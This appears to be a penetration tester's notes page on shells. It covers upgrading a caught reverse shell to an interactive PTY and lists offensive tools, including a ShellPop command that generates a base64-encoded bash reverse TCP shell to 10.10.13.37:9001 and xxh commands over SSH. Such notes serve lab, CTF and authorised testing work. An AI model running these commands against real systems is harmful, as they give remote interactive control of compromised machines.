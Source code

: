 # Shells




## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)
* [https://infosecwriteups.com/using-tmux-for-automating-interactive-reverse-shells-630260740af3](https://infosecwriteups.com/using-tmux-for-automating-interactive-reverse-shells-630260740af3)

```bash
 # Spawn PTY
$ if python3 -V > /dev/null 2>&1; then
  python3 -c 'import pty; pty.spawn("/bin/bash")'
elif python -V > /dev/null 2>&1; then
  python -c 'import pty; pty.spawn("/bin/bash")'
fi
Or
$ script -q /dev/null /bin/bash

 # Background remote shell
user@remote:~$ ^Z

 # Get rows and cols from local terminal
root@kali:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

 # Disable local output in terminal
root@kali:~$ stty raw -echo; fg

 # (optional) Reset remote terminal
user@remote:~$ reset

 # Set rows and columns for proper text aligning
user@remote:~$ stty rows ${ROWS} cols ${COLS}

 # For CTRL-L to work
user@remote:~$ export TERM=xterm / xterm-color / xterm-256color

 # (optional) Get Bash new process image
user@remote:~$ exec /bin/bash [-l]
```




## Tools

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)


### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP example:

```
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```



### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)



### xxh

* [https://github.com/xxh/xxh](https://github.com/xxh/xxh)

```
$ pipx install xxh-xxh
$ source xxh.zsh -i id_rsa snovvcrash@192.168.1.11 +I xxh-plugin-zsh-ohmyzsh +if [+q/+vv]
$ ssh -i id_cthulhu snovvcrash@192.168.1.11 -f "rm -rf .xxh"
```
